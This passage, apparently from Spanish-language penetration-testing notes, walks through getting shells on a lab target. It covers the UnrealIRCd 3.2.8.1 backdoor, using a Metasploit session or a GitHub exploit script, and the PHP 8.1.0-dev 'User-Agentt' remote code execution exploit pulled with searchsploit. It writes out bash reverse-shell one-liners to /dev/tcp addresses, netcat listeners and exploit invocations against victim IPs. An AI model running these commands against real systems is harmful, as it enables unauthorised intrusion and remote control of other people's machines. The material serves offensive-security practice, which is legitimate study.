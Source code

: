 se abre una sesion con el usuario server

al momento que se ejecuta el exploit tenemos que enviarnos una reverse shell con bash

escribimos en la sesion abierta con metasploit

bash -c "bash -i >& /dev/tcp/192.168.42.133/443 0>&1" 

nos ponemos en escucha con netcat en el puerto 443

listo tenemos una conexion mas comoda

Otra forma es usando un exploit de github:


https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor/blob/master/exploit.py

modificamos el exploit en la parte:

# Sets the local ip and port (address and port to listen on)
local_ip = ''  # CHANGE THIS
local_port = ''  # CHANGE THIS

nos ponemos en escucha con netcat con el puerto local_port

python3 exploit.py 192.168.42.167 6667 -payload=netcat

listo tenemos acceso !!!

-------------------------------------------------------------------------------

19.- PHP 8.1.0-dev

generalmente corre en el puerto 8080

existe un exploit en searchsploit -> PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution

lo descargamos 

searchsploit -m php/webapps/49933.py

forma de ejecutar

python3 49933.py

me aparece:

Enter the full host url:

http://IP-VICTIMA:port

luego nos mandamos una bash

bash -c "bash -i >& /dev/tcp/IP-HACKER/PORT-ATTACK 0>&1"

nos ponemos en escucha con netcat:

nc -lnvp PORT-ATTACK

-------------------------------------------------------------------------------

20.- Finger
